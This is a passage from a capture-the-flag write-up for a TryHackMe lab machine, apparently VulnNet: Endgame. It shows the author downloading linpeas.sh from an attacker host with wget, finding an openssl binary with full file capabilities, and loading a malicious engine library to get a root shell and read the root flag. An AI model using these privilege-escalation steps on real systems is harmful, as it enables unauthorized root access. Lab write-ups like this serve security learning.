 ```sh 

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

system@vulnnet-endgame:~$ id
uid=1000(system) gid=1000(system) groups=1000(system)
system@vulnnet-endgame:~$ whoami
system
system@vulnnet-endgame:~$ 
```
# Privileges Escalation
```sh
system@vulnnet-endgame:/tmp$ wget http://10.11.4.14:8001/linpeas.sh
system@vulnnet-endgame:/tmp$ chmod +x linpeas.sh 
system@vulnnet-endgame:/tmp$ ./linpeas.sh 
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities
Current env capabilities:
Current: =
Current proc capabilities:
CapInh:	0000000000000000
CapPrm:	0000000000000000
CapEff:	0000000000000000
CapBnd:	0000003fffffffff
CapAmb:	0000000000000000

Parent Shell capabilities:
0x0000000000000000=

Files with capabilities (limited to 50):
/home/system/Utils/openssl =ep                   # targeting this
/snap/core20/1081/usr/bin/ping = cap_net_raw+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
system@vulnnet-endgame:/tmp$ ls -hla /home/system/Utils/openssl 
-r-xr-x--- 1 system system 707K Jun 14  2022 /home/system/Utils/openssl
```
- Googling openssl capabilities privilege escalation we find this [repo](https://github.com/IAmNewbie99/openssl-privilege-escalation)
- Following the instructions given we get root shell:
```sh
system@vulnnet-endgame:/tmp$ /home/system/Utils/openssl req -engine ./exploit2.so 
root@vulnnet-endgame:/tmp# find / -name root.txt -type f 2>/dev/null
/root/thm-flag/root.txt
^C
root@vulnnet-endgame:/tmp# cat /root/thm-flag/root.txt
THM{REDACTED}
```
# Thanks for reading :)